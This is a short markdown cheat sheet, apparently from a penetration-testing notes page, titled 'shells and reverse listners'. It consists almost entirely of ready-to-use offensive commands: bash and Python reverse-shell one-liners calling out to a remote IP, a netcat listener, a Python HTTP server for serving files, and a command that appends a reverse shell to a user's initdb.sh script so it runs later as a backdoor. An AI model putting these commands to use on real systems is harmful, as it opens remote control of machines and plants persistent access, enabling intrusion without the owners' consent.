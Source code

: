 # shells and reverse listners

bash reverse shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
python server
```
python3 -m http.server 80
```
netcat listner
```
nc -lvnp 6666
```
create new shell
```
echo '/bin/bash -c "bash -i >& /dev/tcp/10.10.xxx.xxx/9000 0>&1"' >> /home/dvir/initdb.sh
```
